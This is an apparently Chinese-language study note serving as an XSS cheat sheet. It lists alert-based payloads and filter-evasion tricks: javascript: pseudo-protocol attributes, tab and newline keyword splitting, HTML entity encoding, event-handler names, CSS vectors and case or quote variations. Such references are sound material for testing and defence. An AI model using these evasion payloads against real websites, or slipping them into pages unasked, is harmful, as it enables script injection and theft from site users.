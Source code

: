 ```yaml
---
title: "XSS"
date: 2016-01-20 21:38
---
```


## xss cheat sheet

xss cheat sheet 即测试xss的测试样表

[XSS_Filter_Evasion_Cheat_Sheet][2]

[XSS Filter Evasion Cheat Sheet 中文版][3]

[HTML5 Security Cheatsheet][1]


```
<script>alert(1);</script>
<script>alert('xss');</script>
```

## xss 过滤绕过

* <> 

```
<scirpt>alert(1);</script>
```

对 <> 或 < script > 进行过滤或转义，可以防御此类xss 

* HTML标签属性执行XSS

很多HTML标签属性支持 javascipt:[code] 伪协议的形式。这个协议类型声明了URL的主体是任意的JavaScript代码，由javascript的解释器运行

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss');">
```

> 并不是所有的浏览器都支持javascript伪协议

并不是所有的标记的属性都可以产生XSS，通常只有引用文件的属性才能触发XSS。

```
href=
lowsrc=
bgsound=
background=
value=
action=
dynsrc=
```

* 空格 换行 Tab

```
<img src="javas cript:alert(/xss/)" width=100>
```

> javas 和 cript是Tab

关键字拆分绕过过滤限制，使用Tab, 空格， 换行。原因分析如下：

javascript语句通常以分号结尾，如果一个语句是完整的，而这一行的结尾是换行符，就可以省略分号。如果同一行中有过个语句，则每个语句就必须使用分号来结束(最后一条语句可以不用分号)

```
var a = true
var b = "something";
```

除了在引号中分隔单词或强制结束语句外，额外的空白无论以何种方式添加都无所谓。

```
<img src="javas
cript:
alert(/xss/)">
```

换行处不是一个完整语句时，js会继续处理发现的内容，直到遇到一个分号或发现完整的语句为止

* 标签属性值转码

编码绕过，HTML标记的属性值过滤，HTML **属性** 本身支持ASCII码形式, 转码支持十进制和十六进制。

可以在十进制（十六进制）字符后面加 **;**, 还可以在前面加0, 如

```
&#0
&#00
&#000
&#0000
```

```
<img src="a" onerror="aler&#116(/xss/)">
<img src=1 onerror="aler&#116;(/xss/)">
<img src="a" onerror="&#97&#108&#101&#114&#116&#40&#47&#120&#115&#115&#47&#41">
<img src="a" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;">
<img src="a" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x2f&#x78&#x73&#x73&#x2f&#x29">
<img src="a" onerror="&#000097&#000108&#000101&#000114&#000116&#000040&#000047&#000120&#000115&#000115&#000047&#000041">
<img src="a" onerror="&#97&#108&#101&#114&#116&#32&#40&#47&#120&#115&#115&#47&#41">
```

注：

```
Tab(&#9), 换行符(&#10), 空格(&#32)可以被插入到代码中任意地方。
```

* 产生自己的事件

当不能依靠属性进行跨站时，可以使用事件。js和HTML之间的交互是通过事件来实现的，事件就是用户或浏览器自身执行的某种动作，如click, load等，而响应事件的函数叫做事件处理函数（或事件侦听器）。

W3C将事件分为3个不同的类别：

```
用户接口(鼠标，键盘)
逻辑（处理的结果）
变化（对文档进行修改）
```

测试事件型xss:

```
onResume
onReverse
onRowDelete
onRowInserted
onSeek
onSynchRestored
onTimeError
onTrackChange
onURLFlip
onRepeat
onMediaComplete
onMediaError
onPause
onProgress
onOutOfSync
onlayoutcomplete
onafterprint
onbeforeprint
ondataavailable
ondatasetchanged
ondatasetcomplete
onerrorupdate
onrowenter
onrowexit
onrowsdelete
onrowsinserted
onselectionchange
onbounce
onfinish
onstop
onresizeend
```

* CSS 跨站剖析

xss另一个载体是CSS样式表，使用CSS样式表执行js具有隐蔽，灵活多变等特点，但其有个很大的缺点：各浏览器之间不能通用，甚者可能同一浏览器不同版本之间都不能通用

```
<div style="background-img:url(javascript:alert('xss'))">
<style>
    body {background-image: url{"javascript:alert('xss')"};}
</style>
```


## 常见绕过

```
# 大小写转换
<IMG sRc="a" onerror="alert(/xss/)">
# 单引号
<img src="a" onerror='alert(/xss/)'>
# 不用引号
<img src="a" onerror=alert(/xss/)>
# / 隔开
<img/src="a"/onerror="alert(/xss/)">
# /**/
<img/**/src="a"/**/onerror=alert(/xss/)>
```

[1]: http://html5sec.org/
[2]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[3]: http://drops.wooyun.org/tips/1955